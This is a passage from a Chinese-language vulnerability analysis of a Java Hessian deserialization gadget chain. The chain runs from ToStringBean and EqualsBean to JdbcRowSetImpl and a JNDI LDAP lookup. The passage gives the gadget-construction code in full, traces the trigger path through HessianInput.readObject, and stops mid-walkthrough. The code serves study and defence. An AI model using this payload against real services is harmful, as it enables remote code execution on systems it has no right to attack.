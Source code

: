 [![](./img/199909/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2020/02/2e9ff77d-da4d-407f-ab7f-da8c6970c119.png-w331s)

同样将利用链提取出来：

```
//反序列化时ToStringBean.toString()会被调用，触发JdbcRowSetImpl.getDatabaseMetaData-&gt;JdbcRowSetImpl.connect-&gt;Context.lookup
String jndiUrl = "ldap://localhost:1389/obj";
JdbcRowSetImpl rs = new JdbcRowSetImpl();
rs.setDataSourceName(jndiUrl);
rs.setMatchColumn("foo");

//反序列化时EqualsBean.beanHashCode会被调用，触发ToStringBean.toString
ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, obj);

//反序列化时HashMap.hash会被调用，触发EqualsBean.hashCode-&gt;EqualsBean.beanHashCode
EqualsBean root = new EqualsBean(ToStringBean.class, item);

//HashMap.put-&gt;HashMap.putVal-&gt;HashMap.hash
HashMap&lt;Object, Object&gt; s = new HashMap&lt;&gt;();
Reflections.setFieldValue(s, "size", 2);
Class&lt;?&gt; nodeC;
try {
    nodeC = Class.forName("java.util.HashMap$Node");
}
catch ( ClassNotFoundException e ) {
    nodeC = Class.forName("java.util.HashMap$Entry");
}
Constructor&lt;?&gt; nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
nodeCons.setAccessible(true);

Object tbl = Array.newInstance(nodeC, 2);
Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
Reflections.setFieldValue(s, "table", tbl);
```

看下触发过程：

经过`HessianInput.readObject()`，到了`MapDeserializer.readMap(in)`进行处理Map类型属性，这里触发了`HashMap.put(key,value)`：

[![](./img/199909/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2020/02/157bdb00-8427-4db7-92fe-38d62ecfeb17.png-w331s)

接着调用了hash方法，其中调用了`key.hashCode`方法：

[![](./img/199909/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2020/02/ed8c53cf-66fb-4b4e-b337-84d9e7f15818.png-w331s)

[![](./img/199909/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2020/02/7c4c5cc2-14d2-4108-9c7c-297af12edea8.png-w331s)

接着触发了`EqualsBean.hashCode-&gt;EqualsBean.beanHashCode`：
